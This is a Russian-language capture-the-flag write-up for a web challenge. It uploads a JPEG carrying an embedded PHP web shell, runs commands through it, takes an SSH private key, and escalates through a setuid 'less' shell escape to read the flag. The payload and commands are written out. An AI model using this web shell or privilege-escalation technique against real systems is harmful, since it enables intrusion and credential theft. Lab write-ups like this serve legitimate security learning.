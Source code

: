 # Web 300 / Доступ к секретам доктора Дума

> Нам удалось обнаружить, что доктор Дум запустил вторую версию секретного хранилища. Попробуйте понять, что он скрывает.

## Часть 1

Заходим на [http://zombie.breakingbrain.org:8082/](http://zombie.breakingbrain.org:8082/).

Проверяем куки, location storage, robots.txt и тд. Пусто.

Смотрим исходный код страницы и видим:

```html
<!-- upload to /uploads dir -->
<form enctype="multipart/form-data" action="/upload" method="post">
  <input name="file" type="file" />
  <button>Upload</button>
</form>
```

Файлы сохраняются в папку `uploads`. Окей, идём дальше.

Изучаем сервис. Выбираем JPG картинку и жмём **Upload**:

> File uploaded successfully: image.jpg

Переходим по адресу [`http://zombie.breakingbrain.org:8082/uploads/image.jpg`](http://zombie.breakingbrain.org:8082/uploads/image.jpg) и получаем `403 Forbidden`. Хм.

Попробуем залить картинку, но с другим расширением. Переименовываем файл `image.jpg` в `image.php` и заливаем ещё раз:

> File uploaded successfully: image.php

Значит, проверка по MIME, а не по расширению файла.

Переходим по адресу [`http://zombie.breakingbrain.org:8082/uploads/image.php`](http://zombie.breakingbrain.org:8082/uploads/image.php) и видим кракозябры, а не `403 Forbidden`. Возможно, Remote File Inclusion.

С помощью [https://github.com/dlegs/php-jpeg-injector](https://github.com/dlegs/php-jpeg-injector) внедряем в картинку следующий PHP код:

```php
<?php system($_GET["cmd"]); ?
```

Заливаем картинку с внедренным PHP, переходим по адресу `http://zombie.breakingbrain.org:8082/uploads/image.php?cmd=ls -la ../../` и среди кракозябр видим:

```bash
total 24
drwxrwxr-x 3 1001 1001 4096 Nov 29 10:55 .
drwxr-xr-x 3 root root 4096 Nov 29 10:53 ..
-rw-rw-r-- 1 1001 1001    8 Nov 29 10:55 flag.txt
-rw-rw-r-- 1 1001 1001 2602 Nov 29 10:55 id_rsa
drwxrwxr-x 4 1001 1001 4096 Nov 29 11:27 src
-rw-rw-r-- 1 1001 1001   75 Nov 29 10:55 ssh_data
```

Читаем `flag.txt` командой `cat ../../flag.txt`:

```bash
Not here
```

Окей, видим файлы `id_rsa` и `ssh_data`. В первом RSA ключ, во втором информация для подключения по SSH:

```bash
Don't forget about it:
ssh user@zombie.breakingbrain.org -p 61322 -i id_rsa
```

## Часть 2

Подключаемся по SSH, видим два файла `read` и `read_me`:

```bash
$ ls
read  read_me
```

Пытаемся прочитать `read_me`:

```bash
$ cat read_me
cat: read_me: Permission denied
```

Прав на чтении нет, т.к. владельцем является пользователь `flag`, а мы под `user`:

```bash
$ ls -l
total 24
-rwsr-sr-x 1 flag flag 16720 Nov 29 10:21 read
-rw------- 1 flag flag    30 Nov 29 10:19 read_me

$ id
uid=1337(user) gid=1337(user) groups=1337(user)
```

Файл `read` с правами на выполнение, запускаем:

```bash
$ ./read
you must become `flag` user :)
/home/user/read_me (END)
```

Похоже на результат команды `less`.

В третьей подсказке сказано, что нужно использовать gtfobins.

Ищем там команду `less` и видим, что из `less` можно перейти напрямую в shell командой `!/bin/sh`.

Попадаем в shell, находим флаг:

```bash
$ cat /home/flag/flag
ITF{YoU_ARE_v3ry_GO0D}
```

Флаг наш.

Гифка по второй части, чтобы было понятнее:

![assets/part-2.gif](assets/part-2.gif)
